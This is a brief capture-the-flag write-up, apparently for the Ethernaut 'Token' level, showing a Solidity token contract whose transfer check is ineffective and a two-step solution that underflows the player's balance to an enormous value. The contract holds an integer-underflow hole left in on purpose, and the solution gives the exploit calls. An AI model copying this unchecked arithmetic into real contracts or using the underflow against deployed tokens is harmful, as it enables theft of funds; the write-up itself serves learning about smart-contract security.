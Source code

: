 # Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

```solidity
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## Solution

The contract doesn't check for a valid balance so we underflow our balance to get a lot of coins.

1. Sent 21 tokens to the contract owner using `await contract.transfer(await contract.address, 21)`
2. Verified that my balance became great again with `await contract.balanceOf('0xFe8070fD6766868a66773A13035a1Cb4DF79A1E0')`

**Final Balance:** 1.15792089237316195423570985008687907853269984665640564039457584007913129639935e+77
